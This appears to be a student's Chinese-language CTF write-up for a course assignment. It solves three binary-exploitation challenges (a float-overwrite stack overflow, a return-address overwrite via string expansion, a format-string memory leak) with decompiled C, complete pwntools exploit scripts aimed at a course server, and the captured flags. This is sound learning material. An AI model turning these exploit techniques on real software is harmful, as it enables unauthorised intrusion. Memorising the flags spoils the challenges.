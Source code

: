 大作业2: 漏洞利用wp

一、overflow
flag: flag{9ff842ab-cf5a-467d-adfe-0950bce79e7f}

逆向后发现需要构造输入能覆盖掉v2的值，使得v2恰好等于11.28125。
```c
int func()
{
  int result; // eax
  char v1; // [rsp+0h] [rbp-30h]
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(&v1);
  if ( v2 == 11.28125 )
    result = system("cat /flag");
  else
    result = puts("Its value should be 11.28125");
  return result;
}
```

完整的exp如下：

```python
from pwn import *
context.terminal=['tmux','splitx','-h']
context.log_level='debug'

p=remote('cssc.vul337.team',49323)
# p=process("./overflow")

import struct

def float2byte(num):
    return struct.pack('<f',num)

print(float2byte(11.28125))

print(len(float2byte(11.28125)))

payload=b'a'*(0x30-4)+float2byte(11.28125)

p.sendline(payload)

p.interactive()
```


二、overflow++
flag: flag{81f67306-ca18-4ebf-928b-b1f52fc5391b}

是栈溢出漏洞，而且有后门函数get_flag()，因此只要把vuln()函数的返回地址覆盖成get_flag()的地址就可以了。
```c
int get_flag()
{
  return system("cat /flag");
}
```

但是发现函数的字符串输入长度有限制，小于数组大小，直接依靠用户的输入内容的话，没有办法覆盖掉函数的返回地址。
```c
fgets(s_3C, 32, edata);
```
但是我们可以注意到，下面还有一个replace函数，这个函数的功能就是把输入字符串里面的`I`全部替换为`you`，这样字符串的长度就可以变长，来覆盖返回地址了。
完整的exp如下：

```python
from pwn import *
context.terminal=['tmux','splitx','-h']
context.log_level='debug'

p=remote('cssc.vul337.team',49322)

returnaddress=0x8048f0d

payload=3*b'a'+19*b'I'+b'a'*4+p32(returnaddress)

p.sendline(payload)

p.interactive()
```

三、fmt
flag: flag{630d24b0-20d6-4a4d-a9ac-4dabde597ee6}

![](./picture/lab2-3.png)

先用ida查看源码，发现进行了几步操作：
1. 从/dev/urandom里读入一个整数并写到一个地址，地址是0804C044并且在bss段里
2. 输入一个字符串
3. 把刚刚那个输入的字符串打印出来
4. 输入一个字符串形式的整数，如果这个整数和刚刚从/dev/urandom里读出来的数相同那么可以获得shell权限

```c
printf(&buf_70);
```
可以看出是格式化字符串漏洞，只要输入`p32(0x0804C044)+b'-%p-%p-%p-%p-%p-%p-%p-%p-%p-%s'`就可以打印出地址`0x0804C044`的内容。然后再把它变成int就可以了。

最终把以上思路写成完整的exp代码如下：

```python
from pwn import *

context.terminal=['tmux','splitx','-h']
context.log_level='debug'

# p = process('./fmt')
p=remote('cssc.vul337.team',49321)

addr=0x0804C044

payload=p32(addr)+b'-%p-%p-%p-%p-%p-%p-%p-%p-%p-%s'

p.sendline(payload)

recv=p.recvline()
print(recv)
passwd=recv[-5:-1]
print(passwd)

int_passwd=int.from_bytes(passwd,'little')
print(int_passwd)

print(str(int_passwd))

p.sendafter(b'your passwd:',bytes(str(int_passwd),encoding='utf-8'))

p.interactive()

```
